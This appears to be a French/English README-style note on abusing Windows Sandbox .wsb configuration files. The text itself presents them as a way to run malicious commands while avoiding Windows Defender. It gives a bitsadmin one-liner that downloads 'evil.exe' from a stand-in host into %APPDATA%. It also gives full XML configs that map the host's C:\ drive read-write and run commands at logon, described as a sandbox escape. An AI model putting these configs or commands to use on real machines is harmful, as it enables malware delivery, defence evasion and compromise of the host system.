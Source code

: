 
I  - Fonctionnement du Windows Sandbox


Windows Sandbox (WSB) va permettre de créer un environnement de bureau isolé, 
Les fichiers de configuration de WSB sont au format XML et utilisent l’extension .wsb.


![image](https://user-images.githubusercontent.com/75935486/152426360-480974ca-877d-4786-a715-237211be7558.png)



voici l'exemple d'un fichier de configuration: 




### Exploiter les configurations WSB:


Une des première méthodes consiste à modifier le champs `<Command>` pour executer notre commande malicieuse et accéder au fichiers systèmes de l'hote, en plus de ça les fichiers WSB ne se font pas détecter par Windows Defender.

Commande possible d'injecter:
```powershell
<Command>bitsadmin /transfer myjob /download /priority high http://legit/evil.exe"%APPDATA%\file">nul&</Command>
```

Compromissions de la configuration:
```xml
<Configuration>
   <MappedFolders>
 	<MappedFolder>
	  <HostFolder>C:\</HostFolder>
 	  <SandboxFolder>C:\Users\WDAGUtilityAccount\UserFiles</SandboxFolder>
 	  <ReadOnly>false</ReadOnly>
 	</MappedFolder>
   </MappedFolders>
   <LogonCommand>
 	<Command>bitsadmin /transfer myjob /download /priority high http://legit/evil.exe"%APPDATA%\file">nul&</Command>
   </LogonCommand>
</Configuration>
```













```
• Inheriting Write Access permission to Host Machine (Sand-Box-Escape)

# Mapping C:\ root to Sandbox Environment with write access (RW.wsb)
<Configuration>
 <MappedFolders>
 <MappedFolder>
 <HostFolder>C:\</HostFolder>
 <SandboxFolder>C:\Users\WDAGUtilityAccount\UserFiles</SandboxFolder>
 <ReadOnly>false</ReadOnly>
 </MappedFolder>
 </MappedFolders>
</Configuration>
NOTE : File created in the sand-box environment will directly reflect in the C:\ folder of Host Machine



 
• Execution upon Sand-Box Environment Creation 

<Configuration>
 <MappedFolders>
 <MappedFolder>
 <HostFolder>C:\</HostFolder>
 <SandboxFolder>C:\Users\WDAGUtilityAccount\UserFiles</SandboxFolder>
 <ReadOnly>false</ReadOnly>
 </MappedFolder>
 </MappedFolders>
 <LogonCommand>
 <Command>C:\Windows\system32\cmd.exe</Command>
 </LogonCommand>
</Configuration>

NOTE : File created in the sand-box environment will directly reflect in the C:\ folder of Host Machine 


```

